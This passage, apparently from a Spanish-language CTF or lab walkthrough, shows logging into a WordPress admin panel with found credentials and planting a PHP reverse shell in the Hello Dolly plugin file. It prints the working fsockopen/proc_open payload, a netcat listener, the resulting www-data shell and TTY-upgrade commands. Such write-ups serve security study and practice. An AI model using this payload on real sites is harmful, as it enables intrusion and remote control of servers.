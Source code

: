 Y metemos las credenciales:

```
User = pressi
Pass = dumbass
```

Una vez dentro iremos a crearnos una `Reverse Shell` de la siguiente forma.

### Reverse Shell

Si nos vamos a la seccion de `plugins` veremos uno que viene por defecto en todos los `wordpress` llamado `Hellow Dolly`, aprovecharemos ese plugin para injectar codigo `php` y cuando lo activemos que lo ejecute, nos iremos principalmente a la seccion de `Herramientas` y dentro del desplegable seleccionaremos `Editor de archivos de plugins` la ultima opcion.

Dentro de aqui solo habra un archivo llamado `hello.php` dentro del mismo injectaremos una reverse shell de la siguiente forma.

```shell
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Metiendo esa linea de codigo dentro de las aperturas del contenido de `php` le daremos al boton de `Actualizar archivo` y los cambios ya estaras guardados, ahora antes de activar el plugin, tendremos que estar a la escucha.

```shell
nc -lvnp <PORT>
```

Y una vez hecho esto, en la pagina de `wordpress` nos vamos a la seccion de `plugins` y el plugin llamado `Hellow Dolly` le daremos a `Activar`.

Nos saltara un error en `wordpress` pero si vamos a la escucha habremos obtenido una shell con el usuario `www-data`.

```
connect to [192.168.5.145] from (UNKNOWN) [172.18.0.2] 46138
whoami
www-data
```

Sanitizamos la shell (TTY).

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

